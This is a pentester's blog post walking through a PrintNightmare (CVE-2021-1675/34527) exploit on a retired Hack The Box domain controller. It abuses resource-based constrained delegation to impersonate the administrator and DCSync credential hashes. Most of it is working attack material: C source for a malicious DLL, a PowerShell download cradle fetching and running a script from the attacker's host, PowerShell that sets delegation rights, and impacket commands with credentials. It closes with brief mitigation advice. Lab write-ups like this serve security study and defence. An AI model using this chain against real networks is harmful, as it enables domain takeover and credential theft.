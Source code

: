 ```yaml
---
layout: post
title: "Leveraging PrintNightmare to Abuse RBCD and DCSync the Domain"
date: 2021-06-30 23:00:00 +0300
author: snovvcrash
tags: [internal-pentest, active-directory, print-spooler, printer-bug, cve-2021-16751, cve-2021-34527, arbitary-file-write, impacket, rbcd]
---
```


A relatively stealthy way to exploit PrintNightmare (CVE-2021-1675 / CVE-2021-34527) by configuring and abusing RBCD on a domain controller.

<!--cut-->

![banner.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/banner.png)
{:.center-image}

* TOC
{:toc}

## Prologue

The recent [PrintNightmare](https://github.com/afwu/PrintNightmare) exploit (post CVE-2021-1675, *UPD: a few days later Microsoft assinged it a brand new **CVE-2021-34527***) abuses <strike>in</strike>famous Print Spooler service in order to load and execute arbitary code on a Windows machine.

I won't dive into the vulnerability analysis because exploit authors will definitely do it better on the upcoming Black Hat event. As for now a brief description of the attack [can be found on the GitHub](https://github.com/afwu/PrintNightmare#cve-2021-1675-analysis).

Thanks to [@cube0x0](https://twitter.com/cube0x0/status/1409928527957344262) now we have [an impacket-based exploit](https://github.com/cube0x0/CVE-2021-1675) to trigger RCE from a Linux box. Another thing I though about is the red team aspect when generating a custom DLL binary. Good old *msfvenom* is (totally) not enough to fly under the radar of commercial antivirus solutions and/or the SOC team operators. If you ask me, I'd rather not run any C2 agents on the DC but aim for standard Active Directory persistence techniques.

So, what can we do when having access to code execution on the behalf of DC machine account and nothing more? Here is when resource-based constrained delegation comes in: impersonating a computer account an adversary can configure RBCD bits for that specific computer object, so that a full AD compromise becomes possible with no need for [adding new users](https://github.com/newsoft/adduser) to privileged groups (which is surely monitored) or running "noisy" malicious stuff on the DC!

## Testing Environment

For demonstration purposes I will use [Multimaster](https://www.hackthebox.eu/home/machines/profile/232) - a retired machine from Hack The Box - as a lab to play with PrintNightmare:

```
Host Name:                 MULTIMASTER
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Domain:                    MEGACORP.LOCAL
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB4054590
                           [03]: KB4512574
                           [04]: KB4520724
                           [05]: KB4530689
```

## A Living Nightmare

The first thing I want to do is to prepare a skeleton for malicious DLL binary that will source and execute a PowerShell script served by an HTTP server on my machine. To construct a DLL one may use [a template](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking#your-own) from HackTricks. Another thing to remember is that a threaded approach should be used to run the command from the DLL in order not to kill the parent process of Spooler service when exiting (similar to `EXITFUNC=thread` when generating a payload with msfvenom). Otherwise the Spooler will probably die and you will not have a second chance to trigger the RCE if something goes wrong.

```c
// pwn.c

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```

Next I will grab an example of [how RBCD bytes can be set with native PowerShell](https://github.com/hausec/Set-RBCDBytes/blob/main/Set-RBCDBytes.ps1) (by [@haus3c](https://twitter.com/haus3c)) and change the code for my case:

```powershell
$ID = New-Object System.Security.Principal.NTAccount("megacorp.local\fakemachine$")
$SID = $ID.Translate([System.Security.Principal.SecurityIdentifier]).ToString()
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($SID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
$DN = ([adsisearcher]"(&(objectclass=computer)(name=MULTIMASTER))").FindOne().Properties.distinguishedname
$adsiobject = [ADSI]"LDAP://$DN"
$adsiobject.Put("msDS-allowedToActOnBehalfOfOtherIdentity", $SDBytes)
$adsiobject.setinfo()
```

Now I have to create a fake machine account to use it when it comes to requesting a forwardable ticket with S4U2Self & S4U2Proxy (some good references on how to abuse RBCD can be found on [PPN](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd) and in my [HTB Hades write-up](https://snovvcrash.rocks/2020/12/28/htb-hades.html#abusing-kerberos-resource-based-constrained-delegation)):

```bash
addcomputer.py megacorp.local/lowpriv:'Passw0rd1!' -dc-ip 10.10.10.179 -computer-name fakemachine -computer-pass 'Passw0rd2!'
```

[![create-fake-machine-account.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)

After the machine object is successfully created (in other words we control a domain account with an SPN) I will make a file containing a simple download cradle in PowerShell and convert it to UTF-16LE:

```bash
cat crandle.ps1
IEX(IWR http://10.10.14.11/rbcd.ps1 -UseBasicParsing)

cat crandle.ps1 | iconv -t UTF-16LE | base64 -w0
```

[![create-download-cradle.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)

I will put the resulting base64 command into the DLL source code and cross-compile it to x64 using MinGW:

```bash
x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared
```

[![compile-dll.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)

Then move the binary to the SMB share and [check that it's accessible](https://github.com/cube0x0/CVE-2021-1675#smb-configuration):

[![prepare-samba.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)

I will download and install [the modified impacket library](https://github.com/cube0x0/impacket) within a virtual environment as well as download [the exploit script](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py):

[![install-impacket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)

Note that dynamic `pDriverPath` (location of the `UNIDRV.DLL` binary) enumeration feature [was added by cube0x0](https://github.com/cube0x0/CVE-2021-1675/commit/3bad3016aca9a6ebb75e5e687614d1c0d045b1f6) a couple of hours after the release - without it the adversary would have to change the script according to the environment:

```powershell
ls C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_*
```

[![get-pdriverpath.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)

Fire up an HTTP server with Python and trigger the bug:

```bash
python CVE-2021-1675.py megacorp.local/lowpriv:'Passw0rd1!'@10.10.10.179 '\\10.10.14.11\share\pwn.dll'
```

[![trigger-the-exploit.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)

In the background it will set the `PrincipalsAllowedToDelegateToAccount` property containing objects that can delegate to MULTIMASTER. It can be verified like follows:

```powershell
Get-ADComputer MULTIMASTER -Properties PrincipalsAllowedToDelegateToAccount
```

[![check-properties.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties.png)

Now I can request a service ticket for LDAP:

```bash
getST.py megacorp.local/fakemachine:'Passw0rd2!' -dc-ip 10.10.10.179 -spn ldap/MULTIMASTER.megacorp.local -impersonate administrator
```

[![request-ticket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)

And finally DCSync the domain with `secretsdump.py`:

```bash
export KRB5CCNAME=/home/snovvcrash/PrintNightmare/CVE-2021-1675/administrator.ccache
secretsdump.py multimaster.megacorp.local -dc-ip 10.10.10.179 -k -no-pass -just-dc-user administrator
```

[![dcsync.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)

## Afterthoughts

The described vulnerability poses enormous risks to active directory infrastructures and must never be used for illegal purposes. To mitigate the risk the Spooler service should be disabled or uninstalled until an official fix is released by vendor. An example on how to disable the Print Spooler can be found [here](https://github.com/LaresLLC/CVE-2021-1675).

*UPD*. Depending on the state of a user's access token (elevated / non-elevated) whose account one's impersonating when making RPC calls to `RpcAddPrinterDriverEx`, the attack may succeed or fail. On the following diagram (by [@StanHacked](https://twitter.com/StanHacked)) there're some conditions that can affect the token state:

[![making-sence-of-printnightmare.png](https://pbs.twimg.com/media/E5ShO9wXwAAPAC9?format=jpg&name=4096x4096)](https://twitter.com/StanHacked/status/1410929974358515719/photo/1)
